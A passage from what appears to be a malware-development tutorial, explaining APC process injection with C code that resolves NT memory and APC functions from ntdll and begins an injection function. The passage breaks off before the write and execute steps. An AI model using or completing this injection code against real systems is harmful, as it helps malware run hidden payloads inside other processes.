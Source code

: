 A `Syscall` structure is created and initialized using `InitializeSyscallStruct`, which holds the addresses of the syscalls used, as shown below.


```
// A structure used to keep the syscalls used
typedef struct _Syscall {

	fnNtAllocateVirtualMemory pNtAllocateVirtualMemory;
	fnNtProtectVirtualMemory  pNtProtectVirtualMemory;
	fnNtWriteVirtualMemory    pNtWriteVirtualMemory;
	fnNtQueueApcThread        pNtQueueApcThread;

}Syscall, * PSyscall;


// Function used to populate the input 'St' structure
BOOL InitializeSyscallStruct(OUT PSyscall St) {

	HMODULE hNtdll =  GetModuleHandle(L"NTDLL.DLL");
	if (!hNtdll) {
		printf("[!] GetModuleHandle Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	St->pNtAllocateVirtualMemory  = (fnNtAllocateVirtualMemory)GetProcAddress(hNtdll, "NtAllocateVirtualMemory");
	St->pNtProtectVirtualMemory   = (fnNtProtectVirtualMemory)GetProcAddress(hNtdll, "NtProtectVirtualMemory");
	St->pNtWriteVirtualMemory     = (fnNtWriteVirtualMemory)GetProcAddress(hNtdll, "NtWriteVirtualMemory");
	St->pNtQueueApcThread         = (fnNtQueueApcThread)GetProcAddress(hNtdll, "NtQueueApcThread");

    // check if GetProcAddress missed a syscall
	if (St->pNtAllocateVirtualMemory == NULL || St->pNtProtectVirtualMemory == NULL || St->pNtWriteVirtualMemory == NULL || St->pNtQueueApcThread == NULL)
		return FALSE;
	else
		return TRUE;
}

```
Next, the `ApcInjectionViaSyscalls` function will be responsible for allocating, writing and executing the payload, `pPayload`, in the target process, `hProcess`. It will use the sacrificial thread's handle, `hThread`. The function returns `FALSE` if it fails to execute the payload and `TRUE` if it succeeds.


```
BOOL ApcInjectionViaSyscalls(IN HANDLE hProcess, IN HANDLE hThread, IN PVOID pPayload, IN SIZE_T sPayloadSize) {

	Syscall     St                      = { 0 };
	NTSTATUS    STATUS                  = NULL;
	PVOID       pAddress                = NULL;
	ULONG       uOldProtection          = NULL;
	SIZE_T      sSize                   = sPayloadSize,
	            sNumberOfBytesWritten   = NULL;

	// Initializing the 'St' structure to fetch the syscall's addresses
	if (!InitializeSyscallStruct(&St)) {
		printf("[!] Could Not Initialize The Syscall Struct \n");
		return FALSE;
	}


```